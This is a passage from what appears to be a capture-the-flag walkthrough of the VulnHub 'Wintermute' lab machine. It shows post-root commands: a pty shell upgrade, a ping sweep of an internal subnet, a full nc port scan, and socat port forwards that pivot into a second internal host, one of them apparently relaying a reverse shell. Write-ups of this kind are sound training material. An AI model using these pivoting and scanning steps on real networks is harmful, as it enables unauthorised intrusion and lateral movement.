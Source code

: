We're now in as root. Remember we're not done yet. When looking around in root we find a note left for us.
```
# python -c "import pty;pty.spawn('/bin/bash')"
root@straylight:/etc# cd /root
 
root@straylight:/root# cat note.txt

Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super AI to remote access on the Freeside network. It is within out internal admin network, but still, it should be off the network completely. For the sake of humanity, user access should only be allowed via the physical console...who knows what this thing can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

It's ready for the devs to customize to her liking...I'm stating the obvious, but make sure to secure this thing.

Regards,

Bob Laugh
Turing Systems Engineer II
Freeside//Straylight//Ops5
```
Previously we'd noted that there was 2 interface cards, hence we'll ping to fing the other IP addresses;
```
root@straylight:/etc# for i in {1..254};do (ping 192.168.219.$i -c 1 -w 5 > /dev/null && echo "192.168.219.$i" &) ; done
192.168.219.1
192.168.219.2
_192.168.219.6_
192.168.219.8
```
The ip of the machine is underscored above. Next thing we do is an port scan of that ip address.
```
root@straylight:/etc# nc -nvz -w 1 192.168.219.6 1-65535
(UNKNOWN) [192.168.219.6] 34483 (?) open
(UNKNOWN) [192.168.219.6] 8080 (http-alt) open
(UNKNOWN) [192.168.219.6] 8009 (?) open
```
We get 3 open ports 8009, 8080, 34483. Previously from LinEnum we found that socat is installed we shall use it to forward this ports to our address.
Using socat;
This activity was such a minder bender:
Lets break it down
```
socat tcp-listen:8009,fork tcp:192.168.219.6:8009 &
socat tcp-listen:8080,fork tcp:192.168.219.6:8080 &
socat tcp-listen:34483,fork tcp:192.168.219.6:34483 &

socat tcp-listen:4321,fork tcp:192.168.251.4:4321 &
```

[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator